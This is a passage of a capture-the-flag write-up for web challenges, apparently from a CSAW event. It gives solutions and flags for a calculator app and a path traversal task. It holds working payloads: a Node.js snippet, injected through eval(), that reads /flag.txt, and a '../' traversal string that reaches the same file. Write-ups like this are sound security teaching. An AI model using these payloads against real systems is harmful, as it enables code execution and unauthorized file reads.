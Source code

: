 ## Solution
Put `/flag.txt` in the box.

## Flag
```
flag{wow_you_got_it!_lets_see_if_you_can_get_the_next_one...}
```

# web - calculator app
> I just made my first website! Its just a simple calculator. I dont really know what I'm doing, can you help me test it?
>
> The flag is at `/flag.txt`.
>
> http://web.red.csaw.io:5005

## Files
- index.js

## Solution
Our input is `eval()`ed. Submit

```js
require('fs').readFileSync('/flag.txt').toString()
```

to get the flag.

## Flag
```
flag{rce_is_a_fun_thing}
```

# web - traverse 2
> Go now, traverse again. The flag is at `/flag.txt`.
>
> http://web.red.csaw.io:5004

## Files
- index.js

## Solution
We can't start with `/`, so we just submit

```
../../../../../../../../../flag.txt
```
